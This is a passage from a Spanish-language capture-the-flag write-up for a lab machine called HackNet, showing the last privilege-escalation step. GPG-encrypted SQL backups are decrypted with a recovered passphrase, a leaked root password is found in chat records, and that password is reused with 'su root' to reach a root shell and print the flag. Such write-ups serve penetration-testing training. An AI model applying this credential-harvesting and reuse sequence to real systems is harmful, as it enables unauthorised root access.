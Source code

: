 Ahora teniendola importada en esta sesion, podremos hacer esto:

```shell
gpg --batch --passphrase-fd 0 -o /tmp/backup01.sql --decrypt backup01.sql.gpg
gpg --batch --passphrase-fd 0 -o /tmp/backup02.sql --decrypt backup02.sql.gpg
gpg --batch --passphrase-fd 0 -o /tmp/backup03.sql --decrypt backup03.sql.gpg
```

Metemos como contraseña `sweetheart` y veremos que funciona, vamos a comprobar el `/tmp` para ver que se decodifico bien:

```
-rw-r--r--  1 sandy www-data 47885 Oct  5 13:32 backup01.sql
-rw-r--r--  1 sandy www-data 48626 Oct  5 13:33 backup02.sql
-rw-r--r--  1 sandy www-data 48859 Oct  5 13:33 backup03.sql
```

Veremos que si, ahora si los leemos veremos lo siguiente:

```
..................................<RESTO DE INFO>..................................
(47,'2024-12-29 20:29:36.987384','Hey, can you share the MySQL root password with me? I need to make some changes to the database.',1,22,18),
(48,'2024-12-29 20:29:55.938483','The root password? What kind of changes are you planning?',1,18,22),
(49,'2024-12-29 20:30:14.430878','Just tweaking some schema settings for the new project. Won't take long, I promise.',1,22,18),
(50,'2024-12-29 20:30:41.806921','Alright. But be careful, okay? Here's the password: h4ck3rs4re3veRywh3re99. Let me know when you're done.',1,18,22),
(51,'2024-12-29 20:30:56.880458','Got it. Thanks a lot! I'll let you know as soon as I'm finished.',1,22,18),
(52,'2024-12-29 20:31:16.112930','Cool. If anything goes wrong, ping me immediately.',0,18,22);
..................................<RESTO DE INFO>..................................
```

Si vemos esas lineas en concreto nos pone lo que parece la `password` del usuario `root`, por lo que vamos a probar a utilizarla:

```shell
su root
```

Metemos como contraseña `h4ck3rs4re3veRywh3re99`...

```
root@hacknet:/var/www/HackNet/backups# whoami
root
```

Veremos que ha funcionado, por lo que leeremos la `flag` de `root`.

> root.txt

```
5a4c738d14c27fa9dff9faa87877f5a2
```

